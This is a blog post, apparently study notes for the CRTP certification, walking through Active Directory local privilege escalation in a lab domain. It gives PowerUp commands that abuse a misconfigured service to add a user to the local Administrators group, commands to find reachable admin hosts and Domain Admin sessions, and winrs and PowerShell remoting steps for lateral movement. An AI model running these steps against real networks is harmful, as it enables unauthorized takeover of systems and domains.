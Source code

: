 ```yaml
---
title: Active Directory (AD) | Local Privilege Escalation (Part 1)
date: 2024-06-25 7:40:00 +0800
categories: [Cert, CRTP]
tags: [Cert, Active Directory]     ## TAG names should always be lowercase
description: Designed to provide a comprehensive guide to Active Directory (AD) attack techniques
---
```



## 1. Local Privilege Escalation

### Scenarios which lead to privilege escalation:
 
 - Hunting for Local Admin access on other machines
 - Hunting for high privilege domain accounts (like a Domain Administrator)
 - Example Scenario : I have local admin access on a machine --> A Domain Admin has a session on that machine --> I steal his token and impersonate him --> Profit!

### Ways of locally escalting privilege on Windows:
 
 - Missing Patches
 - Automated Deployment and AutoLogon password in clear text
 - AlwaysInstallElevated (Any user can run MSI on SYSTEM)
 - Misconfigured Services
 - DLL Hijacking and more
 - NTLM Relaying a.k.a Wont’t Fix
 - NTLM Relaying example - https://github.com/antonioCoco/RemotePotato0

### Tools for complete coverage:
 
 - https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
 - https://github.com/enjoiz/Privesc
 - https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md - Very NOISY

## 2. Check for any privilege escalation path (PowerUp)

First step for local privilege escalation, we will try to check for any privilege escalation path. Then if we found any services that can be abused, we can add our domain user to the local admin group.

```bash
##Check for any priviliege escalation path
Invoke-AllChecks
```

![Result](/img/crtp/result1.png){: width="972" height="589" }
_Invoke-AllChecks_

Let’s use the abuse function for Invoke-ServiceAbuse and add our current domain user to the 
local Administrators group. 
```bash
##Abuse the service and add our current domain user to the local Administrator group
Invoke-ServiceAbuse
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx' -Verbose
```

![Result](/img/crtp/result2.png){: width="972" height="589" }
_Invoke-AllChecks_

Now, our user is a local admin !

## 3. Identify any machine in the domain where our user has local administrative (Find-PSRemotingLocalAdminAccess.ps1)

Next step, we will try to identify any computers/machines in the domain where our user has local administrative access. 


```bash
##Identify a computer within the network domain where the current user has local admin privileges.
Find-PSRemotingLocalAdminAccess
```
![Result](/img/crtp/result3.png){: width="972" height="589" }
We can connect to the machine who has the local administrative access by using winrs

```bash
winrs -r:dcorp-adminsrv cmd

##Checking the username and computername in the remote winrs session
set username
set computername
```
![Result](/img/crtp/result4.png){: width="972" height="589" }

We can also use PowerShell Remoting

```bash
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```
![Result](/img/crtp/result5.png){: width="972" height="589" }

## 4. Identify a machine in the domain where a Domain Admin session is available (PowerView)

A request will be sent to Domain Controller to retrieve all ComputerName and membership of the domain admin's group which has admin session there.

```bash
Find-DomainUserLocation
```
![Result](/img/crtp/result6.png){: width="972" height="589" }

Now, we can abuse this using winrs or PowerShell Remoting!

**Abuse using winrs**
![Result](/img/crtp/result7.png){: width="972" height="589" }